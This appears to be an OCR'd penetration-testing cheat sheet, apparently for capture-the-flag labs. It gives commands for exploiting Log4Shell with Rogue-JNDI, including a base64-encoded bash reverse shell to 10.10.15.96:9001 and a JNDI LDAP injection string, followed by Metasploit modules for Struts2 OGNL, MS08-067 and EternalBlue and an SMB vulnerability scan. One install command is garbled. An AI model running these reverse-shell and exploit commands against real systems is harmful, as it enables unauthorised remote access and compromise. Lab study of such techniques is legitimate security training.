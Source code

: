 * Now install the required packages:

```
sudo apt update
sudo apt update install openjdk-11-jdk -y
java -version
sudo apt-get install maven
mvn -v
```

* After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of the `--command` option and your tun0 IP address to the `--hostname` option.



```
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
echo 'bash -c bash -i >&/dev/tcp/10.10.15.96/9001 0>&1' | base64
java -jar /opt/rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuOTYvOTAwMSAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.15.96"
```

* `--hostname` is your localhost tun0 interface
* &#x20;Now start your listener&#x20;
* Going back to our intercepted POST request, let's change the payload to `${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}` and click `Send`

### Apache Struts2

```
80/tcp open http Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-title: Santa Naughty and Nice Tracker
```

* USE:

```
search struts2
exploit(multi/http/struts2_content_type_ognl)
```

### Microsoft-ds port 445

* `445/tcp open miscrosoft-ds`
* Run the nmap eternal scripts
* USE:

```
nmap --script=smb-vuln* $ip
exploit(windows/smb/ms08_067_netapi)
exploit(windows/smb/ms17_010_eternalblue)
```

### Wing FTP Server

* `21/tcp open wingftp`
* Gain access to the admin panel

